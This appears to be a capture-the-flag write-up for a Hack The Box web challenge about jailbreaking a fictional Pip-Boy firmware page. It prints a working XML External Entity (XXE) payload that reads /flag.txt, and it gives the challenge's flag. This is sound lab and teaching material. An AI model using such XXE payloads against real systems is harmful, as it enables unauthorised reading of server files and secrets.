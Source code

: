# Jailbreak

**Creator:** makelaris

**Description:** The crew secures an experimental Pip-Boy from a black market merchant, recognizing its potential to unlock the heavily guarded bunker of Vault 79. Back at their hideout, the hackers and engineers collaborate to jailbreak the device, working meticulously to bypass its sophisticated biometric locks. Using custom firmware and a series of precise modifications, can you bring the device to full operational status in order to pair it with the vault door's access port. The flag is located in /flag.txt

**Category:** Web

**Difficulty:** very easy

## Solution 

Upon examining the site, I found the Firmware Update page. 
![alt text](image.png)

With some help from chatGPT, it was suggested that this could be an XML External Entity (XXE) injection. After a few tries, I was able to get the flag `HTB{b1om3tric_l0cks_4nd_fl1cker1ng_l1ghts_7e9b90654a5e29c042c68e7b21be7c79}` using the following XML:

```XML
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<FirmwareUpdateConfig>
  <Firmware>
    <Version>&xxe;</Version>
    <ReleaseDate>2077-10-21</ReleaseDate>
    <Description>&xxe;</Description>
    <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
  </Firmware>
  <Components>
    <Component name="navigation">
      <Version>3.7.2</Version>
      <Description>Updated GPS algorithms for improved wasteland navigation.</Description>
      <Checksum type="SHA-256">e4d909c290d0fb1ca068ffaddf22cbd0</Checksum>
    </Component>
    <Component name="communication">
      <Version>4.5.1</Version>
      <Description>Enhanced encryption for secure communication channels.</Description>
      <Checksum type="SHA-256">88d862aeb067278155c67a6d6c0f3729</Checksum>
    </Component>
    <Component name="biometric_security">
      <Version>2.0.5</Version>
      <Description>Introduces facial recognition and fingerprint scanning for access control.</Description>
      <Checksum type="SHA-256">abcdef1234567890abcdef1234567890</Checksum>
    </Component>
  </Components>
  <UpdateURL>https://satellite-updates.hackthebox.org/firmware/1.33.7/download</UpdateURL>
</FirmwareUpdateConfig>
```

![alt text](image-1.png)